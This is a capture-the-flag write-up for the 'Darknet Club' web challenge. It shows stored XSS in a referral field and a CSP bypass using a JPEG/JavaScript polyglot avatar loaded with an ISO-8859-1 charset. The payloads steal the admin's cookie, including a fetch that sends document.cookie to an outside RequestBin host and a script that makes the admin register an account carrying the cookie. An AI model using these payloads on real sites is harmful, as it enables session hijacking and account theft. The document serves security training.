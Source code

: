 # Darknet Club
* Category: Web
* 200 Points
* Solved by the JCTF Team

## Description

> There is a new invite system for the most exclusive darknet websites.
> 
> Can you help me get an in?

## Solution

We enter the attached website and are presented with a register/login page:

![](images/darknet1.png)

We need to enter our username, email, referral and password. After registering, we arrive to the following screen:

![](images/darknet2.png)

On the right side, we can see a "request invitation" button which triggers the following code:

```javascript
async function report() {

	$("#submit-btn").prop("disabled", true); // disable multiple submission

	// prepare alert
	let card = $("#resp-report");
	card.text("Your submission is awaiting approval by Admin!");
	card.attr("class", "alert alert-info");
	card.show();

	let data = {};

	await fetch('/api/report', {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify(data),
		});

	$("#submit-btn").prop("disabled", false);
}
```

This gives us the ability to have the admin visit some page, which usually means that we need to inject some Javascript to the page they're visiting and have them unknowingly execute some malicious code.

Using the "edit" button, we can edit the different fields and look for XSS:

![](images/darknet3.png)

Therefore, we can insert `<script>console.log('XSS')</script>` into each of the fields and see if anything gets logged to the console. When inserting the snippet to the `referral` field, we get a log in the console, but not the one we were hoping for:

```
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-GENXFgllQ+w2L5qjIm/unWJsx1gGFLQVAhqyNNs8gL4='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

It turns out that the site has a CSP which prevents executing inline Javascript code:

```
content-security-policy: default-src 'self'; object-src 'none'; style-src 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com;
```

In order to execute Javascript, we'll need to include a script from the same origin as the site. Luckily, we have an upload API:

```javascript
async function upload() {

	$("#upload-btn").prop("disabled", true); // disable multiple submission

	// prepare alert
	let card = $("#resp-msg");
	card.text('Please wait...');

	// validate
	if ($('input[type=file]')[0].files.length == 0) {
		card.text('Please select a file to upload!');
		$("#upload-btn").prop("disabled", false);
		return;
	}

	let avatarFile = $('input[type=file]')[0].files[0];
	let formData = new FormData();
	formData.append('avatarFile', avatarFile);

	await fetch('/api/upload', {
		method: 'POST',
		credentials: 'include',
		body: formData,
	})
		.then((response) => response.json()
			.then((resp) => {
				if (response.status == 200) {
					avatarFile.value = []; // reset file input
					$('#file-label').text("Select profile avatar..."); // update label
					card.text(resp.message);
					console.log(resp.message) // set response message
					document.location.reload(); //refresh
				}
				if (response.status == 500){
					card.text("This file could not be uploaded, only JPEG files are allowed! ");
				}
			}))
		.catch((error) => {
			card.text("This file could not be uploaded, only JPEG files are allowed! ");
		});

	$("#upload-btn").prop("disabled", false);
}
```

The only problem is that the server rejects any file that isn't a JPEG file. Sometimes the check is based only on the file extension, but in this case there seems to be some kind of content-based check. We need a file that will pass as a JPEG file but also one where we can embed some Javascript code, or in other words, a [polyglot file](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a):

> Polyglots, in a security context, are files that are a valid form of multiple different file types. 

You can find an example for a JPEG-Javascript polyglot [here](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs), but we found that the challenge uses a much simpler check for JPEG files: It just checks that the first four bytes are `FF D8 FF E0`. So, in order to create a valid polyglot for the sake of the challenge, we could just use it as a variable name:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Darknet_Club]
└─$ hexdump -C poly1.jpg
00000000  ff d8 ff e0 20 3d 20 31  3b 0a 0a 63 6f 6e 73 6f  |.... = 1;..conso|
00000010  6c 65 2e 6c 6f 67 28 22  78 73 73 22 29 3b        |le.log("xss");|
0000001e
```

Now, let's try to upload it and include it as a script via the vulnerable "referral" field:

```html
<script src="https://darknet-club.chal.intentsummit.org/api/avatar/user1"></script>
```

![](images/darknet4.png)

When we refresh the page, we get another unexpected error in the console:

```
Uncaught SyntaxError: Invalid or unexpected token
```

Luckily, the PortSwigger article above explains that this is related to default charset interpretation, and in order to work around the default UTF-8 interpretation we can specify the following charset:

```html
<script charset="ISO-8859-1" src="https://darknet-club.chal.intentsummit.org/api/avatar/user1"></script>
```

Once we enter this as the referrer, we can finally see "xss" getting printed to the console! This means that we have some form of XSS, and now we need to proceed to the next phase of leaking the admin's info.

We might want to leak the cookie using a RequestBin request, such as:

```javascript
fetch("https://enhqnnej2mgj5.x.pipedream.net?" + btoa(document.cookie));
```

However, that's blocked by the CSP as well:

```
Refused to connect to 'https://enhqnnej2mgj5.x.pipedream.net/' because it violates the following Content Security Policy directive: "default-src 'self'". Note that 'connect-src' was not explicitly set, so 'default-src' is used as a fallback.
```

So, in order to leak the admin's cookie, we'll utilize a different capability that doesn't violate the CSP: We'll cause the admin to register a new user with a known username and password, and leak the cookie via the referral field:

```javascript
״א = 1;

if (window.navigator.userAgent.search("HeadlessChrome") != -1)
{
   const headers = new Headers()
   headers.append("Content-Type", "application/json")

   body = {username: "leak", password: "cookie", email: "leak@mail.com", referral: btoa(document.cookie)}


   const options = {
       method: "POST",
       headers,
       mode: "cors",
       body: JSON.stringify(body),
   }

   fetch("https://darknet-club.chal.intentsummit.org/api/register", options)
}
```

Notice how we restrict the script to the remote browser so that it doesn't run first locally and register the user with our cookie. In this example we chose to restrict the script to a headless browser but there are many other options.

After reporting the account, we can finally login as our new user and get the flag:

![](images/darknet5.png)


```console
┌──(user@kali)-[/media/sf_CTFs/intent/Darknet_Club]
└─$ echo ZmxhZz1JTlRFTlR7YV9qcDM2XzFzX3cwcjdoX2FfN2gwdTU0bmRfdzByZDV9 | base64 -d
flag=INTENT{a_jp36_1s_w0r7h_a_7h0u54nd_w0rd5}
```